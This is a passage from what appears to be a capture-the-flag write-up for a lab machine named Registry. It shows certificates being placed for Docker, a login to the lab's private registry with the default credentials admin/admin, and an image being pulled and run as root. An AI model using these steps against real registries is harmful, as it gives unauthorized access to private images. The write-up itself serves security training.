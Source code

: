 So our files are:

```sh
#ls                                   
cert.pem     client.key  client.cert 
#cp client.* cert.pem /etc/docker/certs.d/docker.registry.htb/.
#ls /etc/docker/certs.d/docker.registry.htb/
cert.pem     client.cert  client.key   
```

Now that we have moved the keys to the `certs.d` for docker, we can login

```sh
#docker login  http://docker.registry.htb/    
Username: admin
Password: admin
WARNING! Your password will be stored unencrypted in /root/.docker/config.json.
Configure a credential helper to remove this warning. See
https://docs.docker.com/engine/reference/commandline/login/#credentials-store

Login Succeeded       
```

And now we can pull the image

```sh
#docker pull docker.registry.htb/bolt-image                                  
Using default tag: latest                                                    
latest: Pulling from bolt-image                                              
f476d66f5408: Pull complete                                                  
8882c27f669e: Pull complete                                                  
d9af21273955: Pull complete                                                  
f5029279ec12: Pull complete                                                  
2931a8b44e49: Pull complete                                                  
c71b0b975ab8: Pull complete                                                  
02666a14e1b5: Pull complete                                                  
3f12770883a6: Pull complete                                                  
302bfcb3f10c: Pull complete                                                  
Digest: sha256:eeff225e5fae33dc832c3f82fd8b0db363a73eac4f0f0cb587094be54050539b 
Status: Downloaded newer image for docker.registry.htb/bolt-image:latest  
```

Great we can now run this box hopefully

```
#docker ps -l                                                     
CONTAINER ID        IMAGE                            COMMAND             CREATED             STATUS                     PORTS               NAMES             
8dffe724ead5        docker.registry.htb/bolt-image   "bash"              4 seconds ago       Exited (0) 2 seconds ago                       stoic_ramanujan   


#docker run -it docker.registry.htb/bolt-image                                            
root@1abe759b82f6:/# whoami
root
```
